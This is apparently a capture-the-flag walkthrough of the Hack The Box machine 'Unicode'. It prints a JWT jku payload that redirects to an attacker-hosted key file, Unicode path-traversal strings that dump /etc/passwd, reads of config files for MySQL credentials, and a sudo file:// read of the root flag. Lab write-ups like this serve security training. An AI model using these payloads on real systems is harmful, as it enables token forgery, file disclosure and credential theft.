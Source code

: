 ```yaml
---
title: Unicode
date: 2021-04-09
tags:
  - HTB Writeup
---
```

![Unicode](Unicode.png)

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap

Nmap (or network mapper) is a open source tool for Network exploitation and security analysis. Using Nmap, you can scan
one or several hosts for different services running on different ports.
For installing and more info on Nmap , use

```noLineNumbers
sudo apt install nmap
man nmap
```

##### Service Scanning

```noLineNumbers
nmap -Pn -sV -sC 10.10.11.126
```

-sV: Probe open ports to determine service/version info

-sC: equivalent to --script=default

-Pn: Treat all hosts as online -- skip host discovery

```
➜  Unicode git:(master) ✗ nmap -Pn -sV -sC 10.10.11.124  

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-02 13:59 IST
Nmap scan report for 10.10.11.126
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 503
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.22 seconds


```

We can see a Http server running on Port 80

### Checking on port 80:

We got the site url : ```hackmedia.htb```

![site](site.png)

Open ```/etc/hosts``` file and add ```10.10.11.126    hackmedia.htb```
```
sudo nano /etc/hosts
```
Register  and login on the portal.

After login we get a portal like this.
![dashboard](dashboard.png)

We have a upload portal , which allows us to upload a pdf file. I renamed ```php reverse shell``` file to .pdf extension and
uploaded it but seems like that upload can be passed but not executed.

### JWT Token Poisoning
On exploring, found a ```cookie``` with quite a known syntax. The cookie seemed like a ```JWT Token```.

On analysing the cookie with ```jwt.io```,we got the following information.

![jwt](jwt.png)

Migrated to ```/static/jwks.json``` and found
![jwks](jwks.png)

We need to generate a private and public rsa key pair with the info in jwks.json file and tamper with the token to login 
as ```Admin```.

Got a resource [here](https://mkjwk.org/) which takes the algo type and kid to generate ```n,e and rsa key pairs.``` 

Enter the valid details and copy the private key and public key in jwt.io.
Change payload as 

```
{
    "user" : "admin"
}
```

And last important step, we need that the site verify the jwt token from the ```n and e```, we have generated. 
So create a ```local jwks.json``` file and paste the n and e obtained in the same file format.

Next we open a ```python http server.```

```
python3 -m http.server
```

and modify the ```jku``` field in the header as follows:

```
{
    "jku" : "http://hackmedia.htb/static/../redirect?url=<your ip where you started python server>"/jwks.json
}
```

The final inputs look as follows and we get the required JWT Token.

![tampered](tampered.png)

Refresh the page and we get the new dashbaord.

![dash](dash2.png)

### Path Traversal and USER OWN

Clicking on these two options will take us to url ```http://hackmedia.htb/display/?page=monthly.pdf```

![options](options.png)

Lets try to see if we can do a directory traversal here.On putting any random url like ```file=\etc\passwd```, we get the following 
response.

![dir](dir2.png)

This means we need a intelligent query to bypass the filters.
Searched online and found some tricks [here](https://lazarv.com/posts/unicode-normalization-vulnerabilities/) for path traversal.

Used the following method:
```
Directory traversal
︰/︰/︰/etc/passwd
```

and got the response
![traversal](filter.png)

This means we have bypassed the filter. Lets add more layers to make the searched file existant.

```
Directory traversal
︰/︰/︰/︰/︰/︰︰/︰/︰/etc/passwd
```
and yipee got the folowing response

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin 
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false 
code:x:1000:1000:,,,:/home/code:/bin/bash

```

Found a user ```code``` in the target machine. Lets use the above path  traversal method to read ```/home/code/user.txt```
and yeah got the user flag.

### MYSQL credentials

Lets find out way to get shell for code user.
We see the target mmachine has mysql service up and running.

Can we read the mysql credentials from any file using the power of path traversal we have??? Hmmm... 

*Nginx* is running MYSQL service on the target machine. Lets read its configuration file to see if we can find out something.

At ```/etc/nginx/nginx.conf``` we found ```/etc/nginx/sites-enabled/default``` file. 

```
limit_req_zone 
$binary_remote_addr zone=mylimit:10m rate=800r/s; 
server{ #Change the Webroot from /home/code/app/ to /var/www/html/ 
#change the user password from db.yaml listen 80; error_page 503 /rate-limited/; location / 
{ limit_req zone=mylimit; proxy_pass http://localhost:8000; include /etc/nginx/proxy_params; proxy_redirect off; } 
location /static/{ alias /home/code/coder/static/styles/; } }
```

Got another path ```/home/code/coder```
Read the db.yaml file from the directory and we  got the credentials for MYSQL.

Using the same password of MYSQL Database for sshing as code.

### System OWN

Ran ```linpeas.sh``` on the target machine and got
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

```

code can run treport service as root.

On running 
```
sudo -u root /usr/bin/treport
```
the following application started.
![treport](treport.png)

We can use this service as root and also download file. Lets try to download file /root/root.txt. 
As this is local file we will use the url ```file:///root/root.txt``` for downloading the file.

Read the file and yipee we got the root flag.